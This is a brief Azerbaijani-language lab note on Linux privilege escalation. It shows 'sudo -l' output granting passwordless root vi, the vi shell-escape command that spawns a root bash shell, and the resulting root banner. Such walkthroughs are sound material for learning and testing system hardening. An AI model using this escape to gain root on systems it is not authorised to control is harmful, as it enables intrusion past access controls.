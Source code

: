 ## Sudo -l 

bu kimi, müəyyən əmrləri root parolu olmadan kök istifadəçi kimi işlədə bildiyinizi görəcəksiniz. Bu, imtiyazları artırmağa imkan verə bilər.


Sudo -l verilende eger bunu gorursense:
-------
user8@polobox:~$ sudo -l
matching defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
user8@polobox:~$ 
-------

bunu yaz:
# sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

ve bele gorsenecek

user8@polobox:~$ sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

Welcome to Linux Lite 4.4 root
 
Monday 22 January 2024, 07:58:24
Memory Usage: 348/1991MB (17.48%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
